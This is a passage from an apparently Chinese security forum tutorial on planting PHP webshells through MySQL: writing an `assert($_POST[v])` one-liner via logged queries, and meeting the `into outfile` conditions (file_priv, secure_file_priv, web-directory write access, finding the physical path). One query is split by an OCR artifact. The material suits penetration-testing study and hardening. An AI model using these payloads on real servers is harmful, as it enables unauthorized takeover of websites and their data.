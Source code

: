 或者直接`?id=<?php assert($_POST[v]);?>;`都可以了，因为sql语句不管对错日志都会记录

5.最后可以用shell管理工具来连接了。比如我这里用蚁剑成功了：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a0b8b309892938b9950b7a4ce1a628782a31c833.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a0b8b309892938b9950b7a4ce1a628782a31c833.png)

直接成功登录数据库的日志写马可以说是方法和堆叠注入的差不多，就是可以用`show`来看全局变量的值。这里就不赘述了。

mysql into outfile注射一句话木马
=========================

条件
--

关于mysql into outfile注射，要使用`into outfile` 把木马写到web目录拿到webshell首先需要有几个条件：

1.就是mysql用户拥有file\_priv权限（不然就不能写文件或者读文件）

`show global variables like '%secure%'`;查看into outfile可以写入的磁盘。  
（1）当secure\_file\_priv为空，就可以写入磁盘的目录。  
（2）当secure\_file\_priv为G:\\，就可以写入G盘的文件。  
（3）当secure\_file\_priv为null，into outfile就不能写入文件。（注意NULL不是我们要的空，NULL和空的类型不一样）

secure\_file\_priv=""就是可以into outfile写入任意磁盘文件。

secure\_file\_priv设置通过设置my.ini来配置，不能通过SQL语言来修改，因为它是只读变量，secure\_file\_priv设置具体看这里：

若secure\_auth为ON，则用以下方法变为OFF（mysql查询默认是不区分大小写的）

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-79bcf9a5c9c04f7fae1fb442b477c0559de9ff89.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-79bcf9a5c9c04f7fae1fb442b477c0559de9ff89.png)

secure\_file\_priv不能通过此方法修改，因为报错为Variable 'XXX' is a read only variable。报错原因及修改方法为：  
参数为只读参数，需要在mysql.ini配置文件中更改该参数，之后重启数据库

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4356e429a125909f12fbe3ffec2e1c96c4a4238e.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4356e429a125909f12fbe3ffec2e1c96c4a4238e.png)

将secure\_file\_priv为空的正确方法（注意NULL不是我们要的空，NULL和空的类型不一样）

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-8e782037a570a7e3937b5297248720291126d5b6.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-8e782037a570a7e3937b5297248720291126d5b6.png)

2.对web目录有写权限MS的系统就不说了，一般都会有权限的，但是linux的系统，通常都是rwxr-xr-x，也就是说组跟其他用户都没有权限写操作。

3.知道物理路径（into outfile '物理路径'), 这样才能写对目录。

查`select @@b asedir;`——MySQL数据库安装的绝对路径：

```php
mysql> select @@b asedir;
+--------------------------------+
| @@b asedir                      |
+--------------------------------+
| D:/phpStudy/PHPTutorial/MySQL/ |
+--------------------------------+
1 row in set (0.07 sec)

```
